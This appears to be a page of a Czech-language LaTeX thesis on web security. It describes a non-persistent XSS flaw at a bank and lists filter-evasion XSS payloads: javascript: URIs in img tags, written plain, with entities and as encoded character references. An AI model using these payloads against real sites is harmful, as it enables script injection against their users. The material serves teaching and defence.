 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{figure}[h!]
\includegraphics[width=395px]{./examples/xss-airbank2.png}
\caption{Non-persistent XSS [Zdroj: https://twitter.com/Czechurity]}
\label{obr.airbank}
\end{figure}

Tato chyba byla objevena skupinou Czechurity (\textit{https://twitter.com/Czechurity}), která má na svědomí i kompromitaci webových stránek Unicredit bank v březnu 2013, které bylo médii chybně interpretováno jako DDoS\footnote{Distributed Denial of Service - útok, který zahlcuje službu, až dojde k jejímu pádu nebo nedostupnosti pro ostatní uživatele.}.

\subsection{Různé varianty zapsání XSS}
Výstupy na webových stránkách mohou být různým způsobem filtrovány, popřípadě může být přímo filtrován script tag. Toto lze bohužel jednoduše obejít\cite{soom.cz}. Zde několik příkladů (ale ne všechny prohlížeče toto interpretují):

\begin{lstlisting}[label=some-code, language=HTML, caption=Schování JavaScriptu do neexistujícího obrázku]
<img src="javascript:alert('XSS');">
\end{lstlisting}

\begin{lstlisting}[label=some-code, language=HTML, caption=Zakázané uvozovky? Nahrazení entitami \ldots]
<img src=javascript:alert(\&quot;XSS\&quot;)>
\end{lstlisting}

\begin{lstlisting}[label=some-code, language=HTML, caption=Další možností je převedení na unikód]
<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;
&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
\end{lstlisting}
\end{document}
